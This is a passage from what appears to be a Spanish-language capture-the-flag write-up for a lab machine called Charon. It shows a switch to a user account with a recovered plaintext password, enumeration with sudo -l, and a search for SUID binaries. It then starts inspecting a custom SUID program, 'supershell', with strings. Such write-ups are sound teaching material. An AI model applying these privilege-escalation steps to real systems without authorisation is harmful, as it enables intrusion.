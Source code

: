 Tenemos ahora la contraseña `nevermindthebollocks`, la cual podría ser del usuario **decoder**:

```bash
www-data@charon:/home$ su decoder
Password: 
decoder@charon:/home$ whoami
decoder
decoder@charon:/home$
```

Ya somos el usuario **decoder** y podemos visualizar la flag (user.txt). Ahora nos falta convertirnos en usuario **root**; por lo que vamos a enumerar un poco el sistema.

```bash
decoder@charon:/home$ id
uid=1001(decoder) gid=1001(freeeze) groups=1001(freeeze)
decoder@charon:/home$ sudo -l
[sudo] password for decoder: 
Sorry, user decoder may not run sudo on charon.
decoder@charon:/home$ cd /
decoder@charon:/$ find \-perm -4000 2>/dev/null
./usr/local/bin/supershell
./usr/lib/openssh/ssh-keysign
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/snapd/snap-confine
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/eject/dmcrypt-get-device
./usr/bin/pkexec
./usr/bin/sudo
./usr/bin/chfn
./usr/bin/newgrp
./usr/bin/gpasswd
./usr/bin/chsh
./usr/bin/passwd
./usr/bin/at
./usr/bin/newgidmap
./usr/bin/newuidmap
./bin/ntfs-3g
./bin/ping6
./bin/mount
./bin/fusermount
./bin/umount
./bin/ping
./bin/su
decoder@charon:/$
```

Vemos un archivo curioso `/usr/local/bin/supershell`, asi que vamos a echarle un ojo ya que tenemos permisos SUID.

```bash
decoder@charon:/$ ls -l /usr/local/bin/supershell
-rwsr-x--- 1 root freeeze 9120 Jun 24  2017 /usr/local/bin/supershell
decoder@charon:/$ /usr/local/bin/supershell
Supershell (very beta)
usage: supershell <cmd>
decoder@charon:/$ /usr/local/bin/supershell whoami
Supershell (very beta)
decoder@charon:/$ strings /usr/local/bin/supershell             
/lib64/ld-linux-x86-64.so.2
tq$t                       
libc.so.6            
setuid             
exit                
strncmp             
strncpy                       
```